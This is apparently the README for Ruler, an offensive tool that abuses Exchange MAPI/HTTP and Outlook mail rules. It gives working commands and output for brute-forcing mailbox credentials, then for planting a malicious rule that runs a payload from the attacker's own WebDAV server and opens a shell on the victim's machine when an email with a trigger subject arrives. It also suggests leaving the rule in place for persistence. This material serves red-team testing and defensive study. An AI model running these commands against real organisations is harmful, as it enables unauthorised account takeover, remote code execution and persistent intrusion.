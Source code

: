 # Introduction

Ruler is a tool that allows you to interact with Exchange servers through the MAPI/HTTP protocol. The main aim is abuse the client-side Outlook mail rules as described in: [Silentbreak blog]

Silentbreak did a great job with this attack and it has served us well. The only downside has been that it takes time to get setup. Cloning a mailbox into a new instance of Outlook can be time consuming. And then there is all the clicking it takes to get a mailrule created. Wouldn't the command line version of this attack be great? And that is how Ruler was born.

The full low-down on how Ruler was implemented and some background regarding MAPI can be found in our blog post: [SensePost blog]

For a demo of it in action: [Ruler on YouTube]

## What does it do?

Ruler has multiple functions and more are planned. These include

* Enumerate valid users
* View currently configured mail rules
* Create new malicious mail rules
* Delete mail rules

Ruler attempts to be semi-smart when it comes to interacting with Exchange and uses the Autodiscover service (just as your Outlook client would) to discover the relevant information.

# Getting the Code

Ruler is written in Go so you'll need to have Go setup to run/build the project
The first step as always is to clone the repo :

```
git clone https://github.com/sensepost/ruler.git
```
Or you can get it through Go:
```
go get https://github.com/sensepost/ruler
```

You can now run the app through ```go run``` if you wish:
```
go run ruler.go -h
```

Or build it (the prefered option):

```
go build
```

# Interacting with Exchange

It is important to note that for now this only works with the newer MAPI/HTTP used for OutlookAnywhere. The older RPC/HTTP which MAPI replaces is not supported and may possibly not be supported.

As mentioned before there are multiple functions to Ruler. In most cases you'll want to first find a set of valid credentials. Do this however you wish, Phishing, Wifi+Mana or brute-force.

## Brute-force for credentials

If you go the brute-force route, Ruler is your friend. It has a built-in brute-forcer which does a semi-decent job of finding creds.

```
./ruler -domain targetdomain.com -brute -usernames /path/to/user.txt -passwords /path/to/passwords.txt
```
You should see your brute-force in action:

```
./ruler -domain evilcorp.ninja -brute -usernames ~/users.txt -passwords ~/passwords.txt -delay 0 -v -insecure

[*] Starting bruteforce
[x] Failed: cindy.baker:P@ssw0rd
[x] Failed: henry.hammond:P@ssw0rd
[x] Failed: john.ford:P@ssw0rd
[x] Failed: cindy.baker:August2016
[x] Failed: henry.hammond:August2016
[+] Success: john.ford:August2016
[*] Multiple attempts. To prevent lockout - delaying for 0 minutes.
[x] Failed: cindy.baker:Evilcorp@2016
[x] Failed: henry.hammond:Evilcorp@2016
[x] Failed: cindy.baker:3V1lc0rp
[x] Failed: henry.hammond:3V1lc0rp
[*] Multiple attempts. To prevent lockout - delaying for 0 minutes.
[x] Failed: henry.hammond:Password1
[+] Success: cindy.baker:Password1
[x] Failed: henry.hammond:Password!2016
[*] Multiple attempts. To prevent lockout - delaying for 0 minutes.
[x] Failed: henry.hammond:SensePost1
[x] Failed: henry.hammond:Lekker
[*] Multiple attempts. To prevent lockout - delaying for 0 minutes.
[x] Failed: henry.hammond:Eish
```

There are a few other flags that work with ```-brute```
These are:
* -stop _//stop on the first valid username:password combo_
* -delay _//how long to wait between multiple password guesses_
* -attempts _//how many attempts before we delay (attempts per user)_
* -insecure _//if the Exchange server has a bad SSL cerificate_
* -v      _//be verbose and show failed attempts_

## Display existing rules / verify account

Once you have a set of credentials you can target the user's mailbox. Here you'll need to know their email address (address book searching is in the planned extension).

```
./ruler -domain targetdomain.com -email user@targetdomain.com -user username -pass password -display
```

Output:
```
./ruler -domain evilcorp.ninja -user john.ford -pass August2016 -email john.ford@evilcorp.ninja -display -insecure

[*] Retrieving MAPI info
[*] Doing Autodiscover for domain
[+] MAPI URL found:  https://mail.evilcorp.ninja/mapi/emsmdb/?MailboxId=7bb476d4-8e1f-4a57-bbd8-beac7912fb77@evilcorp.ninja
[+] User DN:  /o=Evilcorp/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=beb65f5c92f74b868c138f7bcec7bfb8-John Ford
[*] Got Context, Doing ROPLogin
[*] And we are authenticated
[+] Mailbox GUID:  [251 102 208 159 53 202 228 77 184 67 76 15 228 47 61 223]
[*] Openning the Inbox
[+] Retrieving Rules
[+] Found 0 rules

```

## Delete existing rules (clean up after  yourself)
To delete rules, use the ruleId displayed next to the rule name (000000df1)

```
./ruler -domain targetdomain.com -email user@targetdomain.com -user username -pass password -delete 000000df1
```

# Popping a shell

Now the fun part. Your initial setup is the same as outlined in the [Silentbreak blog], setup your webdav server to host your payload.

To create the new rule user Ruler and:

```
./ruler -domain targetdomain.com -email user@targetdomain.com -user username -pass password -loc "\\\\yourserver\\webdav\\shell.bat" -trigger "pop a shell" -rule maliciousrule
```

The various parts:
* `-loc` _this is the location of your remote shell *note the double slashes* (or c:/Windows/system32/calc.exe)_
* `-trigger` _the string within the subject you want to trigger the rule_
* `-rule` _a name for your rule_


Output:
```
[*] Retrieving MAPI info
[*] Doing Autodiscover for domain
[+] MAPI URL found:  https://mail.evilcorp.ninja/mapi/emsmdb/?MailboxId=7bb476d4-8e1f-4a57-bbd8-beac7912fb77@evilcorp.ninja
[+] User DN:  /o=Evilcorp/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=beb65f5c92f74b868c138f7bcec7bfb8-John Ford
[*] Got Context, Doing ROPLogin
[*] And we are authenticated
[+] Mailbox GUID:  [251 102 208 159 53 202 228 77 184 67 76 15 228 47 61 223]
[*] Openning the Inbox
[*] Adding Rule
[*] Rule Added. Fetching list of rules...
[+] Found 1 rules
Rule: shell RuleID: 01000000127380b1
```

You should now be able to send an email to your target with the trigger string in the subject line. From testing the mailrule is synchronised across nearly instantaniously, so in most cases you should be able to get a shell almost immediatly, assuming outlook is open and connected.

Enjoy your shell and don't forget to clean-up after yourself by deleting the rule (or leave it for persistence).

[Silentbreak blog]: <https://silentbreaksecurity.com/malicious-outlook-rules/>
[SensePost blog]: <https://sensepost.com/blog/2016/mapi-over-http-and-mailrule-pwnage/>
[Ruler on YouTube]:<https://www.youtube.com/watch?v=Epk28fEw2Vk>

